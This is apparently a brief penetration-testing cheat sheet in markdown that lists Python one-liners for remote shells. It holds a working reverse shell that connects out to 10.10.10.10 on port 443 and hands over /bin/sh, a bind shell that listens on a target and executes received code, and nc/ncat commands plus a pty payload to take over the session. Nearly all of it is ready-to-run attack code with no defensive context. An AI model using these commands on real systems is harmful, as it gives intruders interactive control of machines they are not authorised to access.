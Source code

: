 #### python one liner rev shell 

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

#### python one liner bind shell 

run this on target machine 

`python -c 'import socket as a;s = a.socket();s.bind(("127.1",443));s.listen(1);(r,z) = s.accept();exec(r.recv(999))'`

run this on attacker machine 

`nc -v targethost 443` <br>
ncat -v 127.0.0.1 443 <br> 
Ncat: Version 7.70 ( https://nmap.org/ncat )<br>
Ncat: Connected to 127.0.0.1:443.<br>

`import pty,os;os.dup2(r.fileno(),0);os.dup2(r.fileno(),1);os.dup2(r.fileno(),2);pty.spawn("/bin/sh");s.close()`

#you got shell
